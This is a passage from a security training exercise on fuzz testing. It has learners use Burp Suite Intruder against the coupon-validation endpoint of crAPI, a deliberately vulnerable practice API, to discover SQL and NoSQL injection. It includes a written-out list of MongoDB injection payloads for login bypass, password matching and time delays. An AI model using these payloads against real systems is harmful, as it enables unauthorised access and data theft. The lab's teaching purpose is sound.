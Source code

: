 # crAPI Fuzzing input 
The purpose of these exercise is to introduce the concept of _Fuzz testing_.
Fuzz testing is a technique where input data that is either invalid, unexpected or random
is used as input for an application. The fuzz test is automated by software, which provide
a fast way of inputting a lot of different data.
  
There are 2 overall approaches to fuzz data: Random generated data (dynamic combinations of characters, numbers and so on), and
using premade wordlists. The latter is  by far the fastest approach, and the most suitable for fuzz testing web applications and alike.
  
In previous exercises you have already encountered and used fuzz testing. The dictionary attack you used for basic authentication is
fuzz test approach, using data from a wordlist. The approach for API enumeration also depended on fuzzing the URL path.    
A similar approach can be used for discovering potential vulnerabilities in a web application, by fuzzing the body of a request. 
In these  exercises we will use this approach to discover potentiel SQL Injection vulnerabilities.


## prerequisites
Prior to starting this exercise you should have completed [Exercise 6 - basic authentication attacks](6_Basic_Token_Attacks.md),
to ensure you have experience with fuzzing tools (E.g. Burp suite intruder).

## Discovering possible SQL injection vulnerability with fuzzing
In this exercise you will attempt to discover (not abuse) a SQL (or NoSQL) vulnerability using fuzzing.
crAPI have the option of redeeming discount coupons, let try and see if we can abuse that endpoint.
  
1. In Burp suite, Capture at request for coupon validation
2. Send the request to intruder
3. Set the payload to be the value of _coupon_ .
4. Use the wordlist Generic-SQLI from seclists as payload
5. Observe to responses, what are the baseline lengths and response codes?, which should be ignored?
The general pattern to be observed here, is which content length should be ignored, and which response
code with this content length should be ignored. 
  
If there is no hits, maybe they are not using a SQL database. Let try with some NoSql queries also.

_With the NOsql injection attack, Encapsulating " " should be omitted from the payload in intruder_

1. Create a small wordlist for noSQL, with the values below:
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
{"$ne": null}

```
2. Set the payload to the created wordlist file (clear the payload before adding the new file, or else this will take a while)
3. Execute and observe, which create status codes not similar to the baseline?

You should discover at least 1 potential vulnerability. But we will not attempt to abuse this yet.




